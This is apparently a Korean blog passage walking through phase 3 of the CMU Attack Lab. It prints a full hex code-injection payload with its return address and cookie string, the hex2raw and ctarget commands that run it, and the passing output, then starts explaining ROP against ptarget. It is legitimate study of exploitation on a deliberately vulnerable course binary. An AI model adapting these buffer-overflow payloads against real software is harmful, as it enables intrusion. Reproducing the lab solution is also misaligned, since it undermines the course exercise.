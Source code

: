 이제 위 코드를 가지고 입력할 값을 만들면 되는데, return address는 이전에 구했던 것을 그대로 사용하면 된다.
그리고 그 아래는 test의 스택에 cookie 문자열을 저장하는데 사용했다.

```
// phase3.txt
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

여기서 고민이 됐던 것이 마지막에 00을 추가하는 것이었다.
만약 00을 추가하지 않는다면 문자열의 끝부분을 표시할 수 없다.
그렇다고 00을 추가하자니 test의 return address를 침범하는 문제가 있을 것 같았다.
그런데 00이 있든 없든 그대로 실행된다.
아마 이는 주소가 8bytes 중 3bytes만 사용하고 나머지가 0이기 때문에 가능한 것 같다.
그래서 00이 있든지 없든지 어차피 해당 부분이 00이라서 아무런 문제가 없다.

정답 파일을 만들었으니 아래 코드를 실행해서 답을 확인하면 된다.

`./hex2raw < phase3.txt > phase3-ans.txt`
`./ctarget < phase3-ans.txt`

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for Phase3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## ptarget

ptarget은 Code Insertion Attack을 막기 위해서 2가지를 사용한다.

-   스택 랜덤화: 매 실행마다 스택의 위치를 다르게 한다. 그 결과 코드가 삽입될 위치를 유추할 수 없게 된다.
-   실행 코드 영역 제한: 스택에서 실행 가능한 부분을 제한해서 코드를 삽입하더라도 작동하지 않도록 한다.

그래서 Code Insertion Attack을 사용할 수 없고, 다른 전략을 취해야 한다.
새로운 전략은 코드를 삽입하는 것이 아니라, 이미 존재하는 코드 중에서 유용한 것을 사용하는 것이다.
이중 가장 일반적인 것이 ROP(return-oriented programming)다.
ROP의 전략은 뒤에 ret가 오는 인스트럭션을 사용하는 것이다.
아래 예시를 보자.

```
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```
